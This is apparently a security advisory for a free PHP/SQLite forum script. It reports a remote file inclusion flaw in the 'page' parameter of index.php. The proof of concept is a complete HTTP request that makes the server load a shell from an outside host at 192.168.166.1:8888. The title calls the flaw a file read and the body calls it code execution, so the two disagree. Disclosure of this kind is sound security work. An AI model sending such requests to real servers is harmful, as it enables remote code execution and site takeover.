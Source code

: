 # Simple Forum Website using PHP and SQLite3 Source Code Free Download - Arbitrary file read vulnerability
+ Author: xuanluansec
# Vendor Homepage
+ https://www.sourcecodester.com/php/16423/simple-forum-website-using-php-and-sqlite3-source-code-free-download.html
# Software Link
+ https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-sqlite-forum.zip
# Overview
+ xuanluansec has discovered a vulnerability classified as critical in Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0. Any file contains. This operation will result in unrestricted file inclusion, allowing remote execution of arbitrary code.
# Vulnerability Details
+ Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0
+ Vulnerable File: index.php
+ Parameter Names: page
+ Attack Type: Remote
# Description
+ xuanluansec has discovered a vulnerability classified as critical in Simple Forum Website using PHP and SQLite3 Source Code Free Download V1.0. Any file contains. This operation will result in unrestricted file inclusion, allowing remote execution of arbitrary code.
# Note
+ Need to register a user with arbitrary permissions.
![1](https://github.com/xuanluansec/vul/blob/main/vul/img/22.png)

# Proof of Concept (PoC) : 

```
GET /index.php?page=http://192.168.166.1:8888/shell HTTP/1.1
Host: www.php-sqlite-forum.com:8095
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=drgqvt3vblngekc6rqgraeor32
Upgrade-Insecure-Requests: 1


```

![2](https://github.com/xuanluansec/vul/blob/main/vul/img/21.png)
